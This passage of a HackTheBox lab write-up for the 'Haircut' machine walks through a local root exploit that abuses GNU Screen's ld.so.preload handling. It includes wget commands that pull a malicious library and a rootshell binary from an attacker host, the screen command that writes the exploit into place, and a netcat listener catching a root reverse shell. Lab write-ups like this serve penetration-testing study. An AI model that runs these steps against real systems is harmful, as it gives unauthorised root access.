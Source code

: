 Now, I can download these two files onto the machine (/tmp):

```bash
www-data@haircut:/tmp/screenroot$ wget http://10.10.16.7/libhax.so
--2021-09-07 14:57:35--  http://10.10.16.7/libhax.so
Connecting to 10.10.16.7:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 15560 (15K) [application/octet-stream]
Saving to: 'libhax.so'

libhax.so           100%[===================>]  15.20K  --.-KB/s    in 0.06s   

2021-09-07 14:57:35 (256 KB/s) - 'libhax.so' saved [15560/15560]

www-data@haircut:/tmp/screenroot$ wget http://10.10.16.7/rootshell
--2021-09-07 14:57:48--  http://10.10.16.7/rootshell
Connecting to 10.10.16.7:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 16088 (16K) [application/octet-stream]
Saving to: 'rootshell'

rootshell           100%[===================>]  15.71K  --.-KB/s    in 0.02s   

2021-09-07 14:57:48 (734 KB/s) - 'rootshell' saved [16088/16088]

www-data@haircut:/tmp/screenroot$ ls
libhax.so  rootshell
```

Note: You need to start a webserver on your machine first. To exploit the system, just link the [libhax.so](http://libhax.so) library to the screen binary and you should be good:

```bash
www-data@haircut:/tmp$ cd /etc
www-data@haircut:/etc$ umask 000
www-data@haircut:/etc$ screen -D -m -L ld.so.preload echo -ne "\x0a/tmp/libhax.so"
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
www-data@haircut:/etc$ screen -ls
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
No Sockets found in /tmp/screens/S-www-data.
www-data@haircut:/etc$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@haircut:/etc$ /tmp/rootshell
```

After the command was executed, I check my netcat listener, a reverse shell spawned:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/haircut]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.16.7] from (UNKNOWN) [10.10.10.24] 55844
id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```
